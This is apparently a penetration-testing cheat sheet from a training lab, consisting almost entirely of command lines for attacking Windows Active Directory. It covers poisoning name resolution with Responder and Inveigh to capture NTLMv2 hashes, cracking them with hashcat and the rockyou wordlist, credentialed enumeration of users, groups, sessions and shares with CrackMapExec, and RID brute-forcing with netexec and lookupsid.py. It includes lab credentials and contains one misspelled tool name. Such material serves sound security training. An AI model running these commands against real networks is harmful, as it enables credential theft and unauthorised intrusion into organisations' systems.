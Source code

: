 ## Linux
```
ifconfig
```
```
sudo responder -I <interface name> -dwP
```
```
hashcat -m 5600 <file containing hash> /usr/share/wordlists/rockyou.txt
```
## Enumerating the Password Policy - from Linux - Credentialed
```
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```
# Windows
```
Import-Module .\Inveigh.ps1
```
```
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
## C# Inveigh (InveighZero)
```
.\Inveigh.exe
```
```
GET NTLMV2UNIQUE
```
```
GET NTLMV2USERNAMES
```
# Credentialed Enumeration - from Linux
## CrackMapExec
### Domain User Enumeration
```
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```
### Domain Group Enumeration
```
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```
### Logged On Users
```
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```
### Share Searching
```
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```
try a RID cycling attack, by bruteforcing Windows user security identifiers (SIDs) by incrementing the relative identifier (RID) part. The Impacket script loopupside.py will do this nicely:
```
netexec smb 10.10.11.236 -u guest -p '' --rid-brute
```
```
lookupsid.py 0xdf@manager.htb -no-pass
```
```
```